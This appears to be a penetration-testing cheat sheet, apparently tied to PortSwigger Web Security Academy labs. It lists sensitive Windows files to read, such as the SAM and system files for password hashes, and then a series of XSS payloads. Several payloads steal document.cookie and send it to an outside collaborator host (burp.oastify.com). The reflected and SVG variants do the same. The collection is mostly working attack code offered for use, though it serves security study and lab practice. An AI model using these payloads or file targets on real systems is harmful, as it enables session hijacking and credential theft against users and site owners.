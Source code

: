 ##### Files of Interest

```
C:\boot.ini
C:\windows\win.ini
C:\windows\system.ini
C:\windows\iis.log
C:\windows\System32\Drivers\etc\hosts
C:\Windows\system32\config\SYSTEM
C:\windows\debug\netsetup.log
C:\windows\debug\passwd.log
C:\windows\system32\winevt\logs\system.evtx
C:\windows\system32\winevt\logs\Windows Powershell.evtx
C:\windows\WindowsUpdate.log
C:\windows\system32\calc.exe
C:\windows\system32\windowspowershell\v1.0\powershell.exe
C:\users\administrator\desktop\desktop.ini
C:\windows\repair\sam
c:\windows\system32\eula.txt
c:\windows\system32\license.rtf

# Password hashes
c:\WINDOWS\Repair\SAM
c:\WINDOWS\Repair\system
```

### Cross-Site Scripting (XSS)

```html
# https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
# Generic XSS
<script>alert(1)</script>
<script>prompt(1)</script>
<script>confirm(1)</script>
<img src=x onerror=alert(/XSS/)>
<img src=x onerror=prompt(/XSS/)>
<img src=1 href=1 onerror="javascript:alert(1)"></img>
<audio src=1 href=1 onerror="javascript:alert(1)"></audio>
<video src=1 href=1 onerror="javascript:alert(1)"></video>
<body src=1 href=1 onerror="javascript:alert(1)"></body>
<iframe onLoad iframe onLoad="javascript:javascript:alert(1)"></iframe onLoad>
<script>document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />');</script>

# DOM XSS
"><script>document.location='http://burp.oastify.com/?c='+document.cookie</script>
<><img src=1 onerror="window.location='http://burp.oastify.com/c='+document.cookie"
<iframe src="https://kek.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//https:','*')">

# Reflected XSS into HTML context with most tags and attributes blocked
# Vanilla
<script>
location = 'https://kek.web-security-academy.net/?query=<body onload=document.location='https://burp.oastify.com/?c='+document.cookie tabindex=1>#x';
</script>
# URL encoded
<script>
location = 'https://kek.web-security-academy.net/?query=%3Cbody+onload%3Ddocument.location%3D%27https%3A%2F%2Fburp.oastify.com%2F%3Fc%3D%27%2Bdocument.cookie%20tabindex=1%3E#x';
</script>

# Reflected XSS with SVG
# Vanilla
<svg><animatetransform onbegin=document.location='https://burp.oastify.com/?c='+document.cookie;>
```